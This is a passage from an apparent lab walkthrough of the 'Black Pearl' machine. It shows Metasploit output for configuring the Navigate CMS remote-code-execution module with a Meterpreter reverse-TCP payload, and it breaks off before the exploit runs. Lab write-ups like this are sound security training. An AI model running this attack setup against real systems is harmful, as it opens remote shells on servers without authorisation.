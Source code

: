 ~~~
msf6 exploit(multi/http/navigate_cms_rce) > show options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.138.4    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
~~~
Not many things need to be configured. First I put the RHOSTS to the IP address of Black Pearl.
~~~
msf6 exploit(multi/http/navigate_cms_rce) > set RHOSTS 192.168.138.7
RHOSTS => 192.168.138.7
~~~
Then I specify the VHOST, because multiple websites are active on the IP address and the target cannot be found otherwise.
~~~
msf6 exploit(multi/http/navigate_cms_rce) > set VHOST blackpearl.tcm
VHOST => blackpearl.tcm
~~~
I'll check the options one more time just to be sure before continuing.
~~~
msf6 exploit(multi/http/navigate_cms_rce) > show options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.138.7    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST      blackpearl.tcm   no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.138.4    yes       The listen address (an interface may be specified)
~~~